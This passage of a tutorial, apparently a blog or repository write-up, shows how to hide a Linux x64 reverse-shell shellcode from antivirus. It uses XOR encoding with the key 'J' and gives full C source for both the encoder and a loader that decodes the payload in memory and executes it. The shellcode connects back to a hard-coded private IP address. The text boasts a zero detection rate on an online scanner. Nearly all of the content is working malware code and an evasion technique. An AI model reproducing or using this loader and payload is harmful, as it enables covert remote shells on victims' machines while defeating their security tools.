

## Obfuscation
Even though our C coded shellcode wrapper runs perfectly fine, we can enhance it by obfuscating our payload.

We will be using XOR encryption.
We start by creating a C encoder program.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int payload_length = (int) sizeof(buf);

	for (int i=0; i<payload_length; i++)
	{
		printf("\\x%02X",buf[i]^xor_key);
	}

	return 0;

}
```

Our code defines an XOR key value (in this case, "J") and calculates the length of the buffer string. It then stores that value as an integer in the _payload_length_ variable.
The program then iterates through the characters, performing a bitwise-XOR operation on them with the XOR key we chose.
Finally, it prints the newly-encoded hex value to the screen so that we can copy it later.

We use gcc to compile the program and execute it to get our encoded payload.



## New Shellcode
Our new shellcode will have the encoded payload, with a decryption routine and ofcourse, the execution function.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our obfuscated shellcode
unsigned char buf[] = "\x02\x7B\xB5\x20\x43\x12\xD3\xFC\x5A\x02\xC3\x9C\x07\x7B\x83\x20\x68\x0B\x10\xF8\x4D\x45\x4F\x02\xCF\x8A\x32\x1B\x20\x40\x0B\x13\x1A\x20\x63\x12\xD3\x20\x48\x15\x20\x4B\x14\x45\x4F\x02\xCF\x8A\x32\x71\x02\xDD\x02\xF3\x48\x4A\x4A\x1A\x8A\xE2\x7B\xCD\x1B\x02\xC3\xAC\x20\x5A\x10\x20\x60\x12\x45\x4F\x13\x02\xCF\x8A\x33\x6F\x03\xB5\x83\x3E\x52\x1D\x20\x69\x12\x20\x4A\x20\x4F\x02\xC3\xAD\x02\x7B\xBC\x45\x4F\x13\x13\x15\x02\xCF\x8A\x33\x8D\x20\x76\x12\x20\x4B\x15\x45\x4F\x14\x20\x34\x10\x45\x4F\x02\xCF\x8A\x32\xA7\xB5\xAC\x4A";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int arraysize = (int) sizeof(buf);
	for (int i=0; i<arraysize-1; i++)
	{
		buf[i] = buf[i]^xor_key;
	}
	int (*ret)() = (int(*)())buf;
	ret();
}
```

Compiling and running this payload we get a shell as expected, but this time, we get 0 detection rate with Antiscan.me